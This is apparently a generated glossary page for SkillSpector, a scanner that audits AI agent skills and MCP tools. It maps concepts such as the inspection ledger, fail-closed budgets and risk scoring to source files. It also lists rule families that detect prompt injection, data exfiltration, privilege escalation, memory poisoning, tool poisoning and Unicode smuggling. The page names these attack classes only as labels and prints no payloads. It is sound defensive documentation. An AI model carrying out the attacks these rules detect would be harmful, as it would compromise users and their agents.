    subgraph "Natural Language Space"
        G["Inspection Ledger"]
        H["Fail-Closed Model"]
        I["Security Text View"]
        J["Diminishing Returns Scoring"]
        K["Transitive Budget"]
    end

    subgraph "Code Entity Space"
        G1["inspection_ledger.py: InspectionLedgerEvent"]
        H1["state.py: WorkflowResourceBudget"]
        I1["artifacts.py: SecurityTextView"]
        J1["report.py: _compute_risk_score"]
        K1["state.py: _TransitiveTraversalState"]
    end

    G --- G1
    H --- H1
    I --- I1
    J --- J1
    K --- K1
```
**Sources:** [src/skillspector/inspection_ledger.py:31-40](), [src/skillspector/state.py:80-145](), [src/skillspector/artifacts.py:71-88](), [src/skillspector/nodes/report.py:179-204]()

---

## Core Domain Concepts

| Concept | Definition | Code Pointer |
|:---|:---|:---|
| **Inspection Ledger** | Structured audit trail recording files excluded, skipped, or failed during analysis, capturing completion state and coverage percentages. | [src/skillspector/inspection_ledger.py:31-40]() |
| **Fail-Closed** | Security design where resource exhaustion, unparsable bundles, or parser limit breaches immediately truncate analysis and raise blocking error states rather than ignoring failures. | [src/skillspector/state.py:80-145]() |
| **Local-Only** | Operational execution guarantee ensuring scanned files and internal metadata never leave local storage unless explicitly transferred via user-configured remote LLM endpoints. | [src/skillspector/nodes/report.py:108-124]() |
| **Security Text View** | Bounded derived text projection with direct offset maps back to raw character bytes, defeating Unicode normalization gaps and obfuscation. | [src/skillspector/artifacts.py:71-88]() |
| **Diminishing Returns Scoring** | Risk scoring algorithm where repeating the same rule ID yields exponentially decaying point contributions (`1.0`, `0.5`, `0.25`, then `0`), preventing finding spam from distorting the score. | [src/skillspector/nodes/report.py:179-204]() |
| **Baseline** | Persistent configuration containing glob rules and SHA256 fingerprints to suppress known findings during re-scans. | [src/skillspector/suppression.py:64-103]() |
| **Transitive Budget** | Bounded traversal accounting object tracking remaining time, byte consumption, and file depth across external reference expansions. | [src/skillspector/state.py:80-145]() |

**Sources:** [src/skillspector/inspection_ledger.py:31-40](), [src/skillspector/state.py:80-145](), [src/skillspector/artifacts.py:71-88](), [src/skillspector/nodes/report.py:179-204](), [src/skillspector/suppression.py:64-103]()

---

## Rule ID Families

SkillSpector organizes its vulnerability and security checks into standardized rule identifier families.

| Prefix Family | Category / Domain | Implementation Module / Code Pointer |
|:---|:---|:---|
| **P** (P1-P9) | Prompt Injection & System Leakage | [src/skillspector/nodes/analyzers/static_patterns_prompt_injection.py:15-30]() |
| **E** (E1-E5) | Data Exfiltration | [src/skillspector/nodes/analyzers/static_patterns_data_exfiltration.py:15-25]() |
| **PE** (PE1-PE5) | Privilege Escalation | [src/skillspector/nodes/analyzers/static_patterns_privilege_escalation.py:15-25]() |
| **AS** (AS1-AS3) | Agent Snooping & Context Theft | [src/skillspector/nodes/analyzers/static_patterns_agent_snooping.py:15-25]() |
| **SC** (SC1-SC9) | Supply Chain Vulnerabilities & Dependencies | [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:16-30]() |
| **TR** (TR1-TR3) | Trigger Abuse & Autonomous Activation | [src/skillspector/nodes/analyzers/static_patterns_trigger_abuse.py:15-25]() |
| **OH** (OH1-OH3) | Output Handling & Unescaped Rendering | [src/skillspector/nodes/analyzers/static_patterns_output_handling.py:15-25]() |
| **EA** (EA1-EA4) | Excessive Agency | [src/skillspector/nodes/analyzers/static_patterns_excessive_agency.py:15-25]() |
| **MP** (MP) | Memory Poisoning | [src/skillspector/nodes/analyzers/static_patterns_memory_poisoning.py:15-25]() |
| **TM** (TM) | Tool Misuse | [src/skillspector/nodes/analyzers/static_patterns_tool_misuse.py:15-25]() |
| **AE** (AE1-AE6) | Artifact Integrity & Evasion Signals | [src/skillspector/nodes/analyzers/artifact_integrity.py:41-45]() |
| **AST** (AST1-AST9) | Behavioral Code Analysis (Abstract Syntax Tree) | [src/skillspector/nodes/analyzers/behavioral_ast.py:20-35]() |
| **TT** (TT1-TT5) | Behavioral Taint Tracking | [src/skillspector/nodes/analyzers/behavioral_taint_tracking.py:20-35]() |
| **YR** (YR) | YR (YARA-Based Malware Signatures) | [src/skillspector/nodes/analyzers/static_yara.py:20-35]() |
| **LP** (LP1-LP4) | MCP Least Privilege Verification | [src/skillspector/nodes/analyzers/mcp_least_privilege.py:16-30]() |
| **TP** (TP1-TP4) | MCP Tool Poisoning | [src/skillspector/nodes/analyzers/mcp_tool_poisoning.py:16-30]() |
| **SSD** | Semantic Security Discovery (LLM-powered) | [src/skillspector/nodes/analyzers/semantic_security_discovery.py:20-35]() |
| **SDI** (SDI-1..4) | Semantic Developer Intent (LLM-powered) | [src/skillspector/nodes/analyzers/semantic_developer_intent.py:20-35]() |
| **SQP** | Semantic Quality Policy (LLM-powered) | [src/skillspector/nodes/analyzers/semantic_quality_policy.py:20-35]() |

**Sources:** [src/skillspector/nodes/analyzers/static_patterns_prompt_injection.py:15-30](), [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:16-30](), [src/skillspector/nodes/analyzers/artifact_integrity.py:41-45](), [src/skillspector/nodes/analyzers/behavioral_ast.py:20-35](), [src/skillspector/nodes/analyzers/mcp_tool_poisoning.py:16-30]()

---

## Technical Abbreviations and Terms

| Term / Abbreviation | Definition | Code Pointer |
|:---|:---|:---|
| **AST** | Abstract Syntax Tree. Python code structure representation parsed via standard library `ast`. | [src/skillspector/nodes/analyzers/behavioral_ast.py:20-20]() |
| **CVE** | Common Vulnerabilities and Exposures. Tracked via live queries to OSV.dev. | [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:119-123]() |
| **MCP** | Model Context Protocol. Standard protocol for agent-tool interaction. | [src/skillspector/nodes/analyzers/mcp_tool_poisoning.py:16-16]() |
| **SARIF** | Static Analysis Results Interchange Format (JSON-based schema 2.1.0). | [src/skillspector/sarif_models.py:45-60]() |
| **OMS** | NVIDIA Open Model Specification / Signature format. | [src/skillspector/state.py:84-84]() |
| **OSV** | Open Source Vulnerabilities database client. | [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:119-123]() |
| **ZWJ** | Zero-Width Joiner. Unicode character used in smuggling attacks. | [tests/nodes/analyzers/test_static_patterns.py:139-158]() |

**Sources:** [src/skillspector/sarif_models.py:45-60](), [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:119-123](), [src/skillspector/nodes/analyzers/behavioral_ast.py:20-20]()